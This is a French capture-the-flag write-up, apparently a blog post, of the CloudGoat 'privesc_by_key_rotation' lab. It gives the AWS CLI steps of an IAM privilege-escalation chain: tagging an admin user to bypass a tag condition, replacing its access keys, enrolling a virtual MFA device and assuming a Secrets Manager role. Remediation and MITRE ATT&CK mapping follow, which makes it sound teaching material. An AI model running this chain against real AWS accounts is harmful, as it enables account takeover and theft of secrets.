


Un manager qui peut tagger des users et créer des access keys sur ceux qui ont le bon tag. Une condition qui semblait protéger. Un admin qui pouvait assumer un rôle vers Secrets Manager. La chaîne est courte. Elle n'était pas évidente.

Ce qu'on apprend ici : comment une combinaison de permissions IAM apparemment anodines peut offrir un chemin de privesc complet, avec un bonus MFA à contourner en route.

---

## Le point de départ

CloudGoat fournit des credentials pour un user `manager`. On configure le profil et on vérifie qui on est :

```bash
aws configure --profile rota
aws sts get-caller-identity --profile rota
```

```json
{
  "UserId": "AIDA************",
  "Account": "************",
  "Arn": "arn:aws:iam::************:user/manager_cgidbu2bsgohg4"
}
```

On sait qui on est. On sait pas encore ce qu'on peut faire.

```bash
aws iam list-attached-user-policies --user-name manager_cgidbu2bsgohg4 --profile rota
```

```json
{
  "AttachedPolicies": [{
    "PolicyName": "IAMReadOnlyAccess",
    "PolicyArn": "arn:aws:iam::aws:policy/IAMReadOnlyAccess"
  }]
}
```

`IAMReadOnlyAccess`. Ça donne l'accès en lecture à toute la configuration IAM du compte. Pas anodin.

## Énumération

Avec `IAMReadOnlyAccess` on peut tout lire : users, roles, policies. On commence par les users :

```bash
aws iam list-users --profile rota
```

Trois users CloudGoat ressortent : `manager`, `developer`, `admin`. Le nom `admin` est intéressant. On regarde ses policies attachées :

```bash
aws iam list-attached-user-policies --user-name admin_cgidbu2bsgohg4 --profile rota
```

Résultat : `IAMReadOnlyAccess` uniquement. Décevant. Mais on vérifie aussi les inline policies, c'est différent :

```bash
aws iam list-user-policies --user-name admin_cgidbu2bsgohg4 --profile rota
```

```json
{ "PolicyNames": ["AssumeRoles"] }
```

Voilà quelque chose. On lit le contenu :

```bash
aws iam get-user-policy --user-name admin_cgidbu2bsgohg4 --policy-name AssumeRoles --profile rota
```

```json
{
  "Action": "sts:AssumeRole",
  "Effect": "Allow",
  "Resource": "arn:aws:iam::************:role/cg_secretsmanager_cgidbu2bsgohg4"
}
```

`admin` peut assumer un rôle vers Secrets Manager. Le nom du scénario est `privesc_by_key_rotation`. La direction devient claire : si on peut créer des access keys pour `admin`, on prend son identité et on assume ce rôle.

On regarde les inline policies de `manager` :

```bash
aws iam list-user-policies --user-name manager_cgidbu2bsgohg4 --profile rota
```

```json
{ "PolicyNames": ["SelfManageAccess", "TagResources"] }
```

Deux policies. On les lit toutes les deux.

`TagResources` en premier :

```json
{
  "Action": ["iam:TagUser", "iam:TagRole", "iam:TagPolicy", "iam:UntagUser", "..."],
  "Effect": "Allow",
  "Resource": "*"
}
```

`manager` peut tagger n'importe quelle ressource IAM. Sans condition.

`SelfManageAccess` ensuite :

```json
{
  "Action": ["iam:CreateAccessKey", "iam:DeleteAccessKey", "iam:UpdateAccessKey", "..."],
  "Effect": "Allow",
  "Condition": {
    "StringEquals": { "aws:ResourceTag/developer": "true" }
  },
  "Resource": "arn:aws:iam::************:user/*"
}
```

`iam:CreateAccessKey` sur tous les users... mais seulement ceux taggés `developer: true`.

La combinaison est là. `manager` peut tagger n'importe qui, et créer des clés sur les users taggés `developer`. Du coup il peut se créer un accès sur `admin` en deux étapes.

> **Leçon :** `iam:TagUser` sur `Resource: *` sans condition est une permission dangereuse dès qu'une autre policy utilise des tags comme condition de sécurité. Le tag devient un levier de bypass, pas un contrôle.

## Phase attaque

### Étape 1 : tagger admin

```bash
aws iam tag-user \
  --user-name admin_cgidbu2bsgohg4 \
  --tags Key=developer,Value=true \
  --profile rota
```

Pas d'erreur. Succès.

(J'avais d'abord essayé `aws iam create-tag` qui n'existe pas. La bonne commande c'est `tag-user`.)

### Étape 2 : créer des access keys pour admin

```bash
aws iam create-access-key --user-name admin_cgidbu2bsgohg4 --profile rota
```

```
An error occurred (LimitExceeded): Cannot exceed quota for AccessKeysPerUser: 2
```

`admin` a déjà deux clés actives. Le quota AWS est deux par user. On en supprime une :

```bash
aws iam list-access-keys --user-name admin_cgidbu2bsgohg4 --profile rota
aws iam delete-access-key \
  --user-name admin_cgidbu2bsgohg4 \
  --access-key-id AKIA************ \
  --profile rota
aws iam create-access-key --user-name admin_cgidbu2bsgohg4 --profile rota
```

```json
{
  "AccessKey": {
    "UserName": "admin_cgidbu2bsgohg4",
    "AccessKeyId": "AKIA************",
    "SecretAccessKey": "************************************",
    "Status": "Active"
  }
}
```

On configure le profil `admin` et on vérifie l'identité :

```bash
aws sts get-caller-identity --profile admin
```

```json
{ "Arn": "arn:aws:iam::************:user/admin_cgidbu2bsgohg4" }
```

On est `admin`.

> **Leçon :** `iam:CreateAccessKey` sur `Resource: *` est une permission critique. Pas besoin d'exploit technique. Juste un tag et une commande CLI, et on génère des credentials pour n'importe quel user du compte.

### Étape 3 : assumer le rôle

```bash
aws sts assume-role \
  --role-arn arn:aws:iam::************:role/cg_secretsmanager_cgidbu2bsgohg4 \
  --role-session-name secretsession \
  --profile admin
```

```
AccessDenied: User is not authorized to perform: sts:AssumeRole
```

Étrange. La policy `AssumeRoles` sur `admin` autorise explicitement cette action. On lit la trust policy du rôle :

```bash
aws iam get-role --role-name cg_secretsmanager_cgidbu2bsgohg4 --profile rota
```

```json
{
  "Condition": {
    "Bool": { "aws:MultiFactorAuthPresent": "true" }
  }
}
```

Le rôle n'accepte les `AssumeRole` qu'avec MFA actif. Pas de session MFA, pas d'accès. C'est là que ça devient intéressant.

### Étape 4 : ajouter le MFA à admin



On a `iam:CreateVirtualMFADevice` dans `SelfManageAccess`. Mais avec quel profil ?

Premier essai avec `admin` :

```
AccessDenied: no identity-based policy allows the iam:CreateVirtualMFADevice action
```

Logique. La permission est sur `manager`, pas sur `admin`. On bascule sur `rota` :

```bash
aws iam create-virtual-mfa-device \
  --virtual-mfa-device-name admin-mfa \
  --outfile /tmp/admin-mfa.png \
  --bootstrap-method QRCodePNG \
  --profile rota
```

```json
{ "VirtualMFADevice": { "SerialNumber": "arn:aws:iam::************:mfa/admin-mfa" } }
```

On scanne le QR code avec une app TOTP, on active le device sur `admin` avec deux codes consécutifs :

```bash
aws iam enable-mfa-device \
  --user-name admin_cgidbu2bsgohg4 \
  --serial-number arn:aws:iam::************:mfa/admin-mfa \
  --authentication-code1 ****** \
  --authentication-code2 ****** \
  --profile rota
```

Succès.

### Étape 5 : assume-role avec MFA

```bash
aws sts assume-role \
  --role-arn arn:aws:iam::************:role/cg_secretsmanager_cgidbu2bsgohg4 \
  --role-session-name secretsession \
  --serial-number arn:aws:iam::************:mfa/admin-mfa \
  --token-code ****** \
  --profile admin
```

Cette fois les credentials temporaires arrivent. On configure le profil `secret` avec l'`AccessKeyId`, `SecretAccessKey` et `SessionToken`, puis :

```bash
aws sts get-caller-identity --profile secret
```

```json
{ "Arn": "arn:aws:sts::************:assumed-role/cg_secretsmanager_cgidbu2bsgohg4/secretsession" }
```

On est sur le rôle.

### Étape 6 : le flag

```bash
aws secretsmanager list-secrets --profile secret --region us-east-1
aws secretsmanager get-secret-value \
  --secret-id cg_secret_cgidbu2bsgohg4 \
  --profile secret --region us-east-1
```

```json
{
  "SecretString": "flag{14m_PERM15510N5_4Re_5C4R_23ac61bcaf9282fa9575bbcb6243d9a1ff9aa76dc761a07a567225636a683d18}"
}
```

Flag capturé.

## Chaîne d'attaque



```
manager (IAMReadOnlyAccess + SelfManageAccess + TagResources)
  |
  |-- iam:TagUser → admin tagué developer:true
  |
  |-- iam:DeleteAccessKey → rotation forcée sur admin
  |-- iam:CreateAccessKey → credentials admin
  |
  |-- iam:CreateVirtualMFADevice (via rota) → MFA device créé
  |-- iam:EnableMFADevice (via rota) → MFA activé sur admin
  |
  |-- sts:AssumeRole + MFA → rôle cg_secretsmanager assumé
  |
  --> secretsmanager:GetSecretValue → FLAG
```

## Remédiation

### Vuln 1 : TagResources sans restriction

`manager` pouvait tagger n'importe quel user, ce qui lui permettait de contourner la condition tag-based de `SelfManageAccess`.

Fix : supprimer la policy `TagResources` entièrement.

```bash
aws iam delete-user-policy \
  --user-name manager_cgidbu2bsgohg4 \
  --policy-name TagResources \
  --profile cloudgoat
```

Vérification :

```bash
aws iam tag-user \
  --user-name admin_cgidbu2bsgohg4 \
  --tags Key=developer,Value=true \
  --profile rota
# AccessDenied: no identity-based policy allows the iam:TagUser action
```

Bloqué.

### Vuln 2 : CreateAccessKey sur d'autres users

Même sans les tags, `manager` pouvait créer et supprimer des clés sur d'autres comptes. C'est une violation du principe du moindre privilège.

Fix : retirer `iam:CreateAccessKey` et `iam:DeleteAccessKey` de `SelfManageAccess`.

```bash
aws iam put-user-policy \
  --user-name manager_cgidbu2bsgohg4 \
  --policy-name SelfManageAccess \
  --policy-document '{
    "Version": "2012-10-17",
    "Statement": [
      {
        "Sid": "SelfManageAccess",
        "Effect": "Allow",
        "Action": [
          "iam:DeactivateMFADevice",
          "iam:GetMFADevice",
          "iam:EnableMFADevice",
          "iam:ResyncMFADevice",
          "iam:UpdateAccessKey"
        ],
        "Condition": {
          "StringEquals": { "aws:ResourceTag/developer": "true" }
        },
        "Resource": [
          "arn:aws:iam::************:user/*",
          "arn:aws:iam::************:mfa/*"
        ]
      },
      {
        "Sid": "CreateMFA",
        "Effect": "Allow",
        "Action": ["iam:DeleteVirtualMFADevice", "iam:CreateVirtualMFADevice"],
        "Resource": "arn:aws:iam::************:mfa/*"
      }
    ]
  }' \
  --profile cloudgoat
```

Vérification :

```bash
aws iam create-access-key --user-name admin_cgidbu2bsgohg4 --profile rota
# AccessDenied: no identity-based policy allows the iam:CreateAccessKey action
```

Bloqué.

### Vuln 3 : AssumeRoles sur admin

`admin` pouvait assumer un rôle vers Secrets Manager. Un user avec `IAMReadOnlyAccess` n'a aucune raison d'avoir ce privilège.

Fix : supprimer la policy inline `AssumeRoles` sur `admin`.

```bash
aws iam delete-user-policy \
  --user-name admin_cgidbu2bsgohg4 \
  --policy-name AssumeRoles \
  --profile cloudgoat
```

Vérification :

```bash
aws sts assume-role \
  --role-arn arn:aws:iam::************:role/cg_secretsmanager_cgidbu2bsgohg4 \
  --role-session-name test \
  --serial-number arn:aws:iam::************:mfa/admin-mfa \
  --token-code ****** \
  --profile admin
# AccessDenied: User is not authorized to perform: sts:AssumeRole
```

Bloqué.

## Bilan

| Vulnérabilité | Impact | Remédiation |
|---|---|---|
| `iam:TagUser` sans condition sur `Resource: *` | Contournement de toute condition basée sur les tags | Supprimer `TagResources` ou restreindre à des ressources spécifiques |
| `iam:CreateAccessKey` + `iam:DeleteAccessKey` sur d'autres users | Génération de credentials pour n'importe quel compte du tenant | Retirer ces permissions de `SelfManageAccess` |
| `sts:AssumeRole` sur un rôle Secrets Manager pour un user read-only | Escalade vers un accès aux secrets de production | Supprimer la policy `AssumeRoles`, appliquer le moindre privilège |

Encore une fois chaque permission prise isolément semble défendable. `manager` qui gère des tags ? Logique. `manager` qui crée des clés pour les users `developer` ? Ok. `admin` qui peut assumer un rôle applicatif ? Pourquoi pas.

C'est la combinaison qui la fout mal. Et c'est exactement ce qu'un scanner automatique rate, là où un pentest manuel trouve.

La condition tag-based était censée être le garde-fou. Mais elle ne vaut rien si celui qui applique les conditions peut aussi modifier les tags.

## MITRE ATT&CK

| Technique | ID | Description |
|---|---|---|
| Valid Accounts | T1078 | Credentials manager fournis comme point d'entrée |
| Account Manipulation | T1098.001 | Création de nouvelles access keys sur un autre user |
| Abuse Elevation Control Mechanism | T1548 | Assume-role avec MFA pour accéder à un rôle privilégié |
| Unsecured Credentials | T1552 | Secret stocké dans Secrets Manager, accessible via rôle mal configuré |

La phase d'énumération IAM de ce scénario reprend exactement les techniques de [IAM Enum Basics](/posts/writeup-iam-enum-basics/) — si tu n'as pas encore vu comment `IAMReadOnlyAccess` expose toute la config d'un compte, commence par là.
